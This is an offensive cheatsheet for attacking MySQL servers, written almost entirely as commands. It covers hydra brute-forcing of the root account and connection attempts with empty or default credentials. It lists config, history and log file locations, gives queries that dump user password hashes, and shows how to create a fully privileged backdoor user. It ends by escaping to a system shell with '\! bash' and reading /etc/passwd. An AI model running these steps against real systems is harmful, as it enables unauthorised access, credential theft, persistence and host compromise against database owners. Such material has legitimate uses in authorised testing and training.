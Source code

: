 # Cheatsheet

## Brute-forcing 
```
hydra -l root -P /path/to/wordlist.txt (TARGET IP ADDRESS) mysql
```

## Connection tests
```
mysql -h <Hostname> -u root
mysql -h <Hostname> -u root
mysql -h <Hostname> -u root@localhost
mysql -h <Hostname>
mysql -h <Hostname> -u ""@localhost

mysql -u john -phiroshima -e 'show databases'
mysql -u john -phiroshima -D webapp -e 'show tables'
```

## Configuration files
```
windows

config.ini
my.ini
windows\my.ini
winnt\my.ini
<InstDir>/mysql/data/

UNIX

/etc/my.cnf
/etc/mysql/my.cnf
/var/lib/mysql/my.cnf
~/.my.cnf
/etc/my.cnf
```

Command history
```
~/.mysql.history
```

Log files:
```
connections.log
update.log
common.log
```

## Privilege Escalation

Current access level:
```
mysql>select user();
mysql>select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()';
```

Access passwords:
```
mysql> use mysql
mysql> select user,password from user;
```

Create new user and grant permissions:
```
mysql>create user test identified by 'test';
mysql> grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;
```

Break into shell:
```
mysql> \! cat /etc/passwd
mysql> \! bash
```
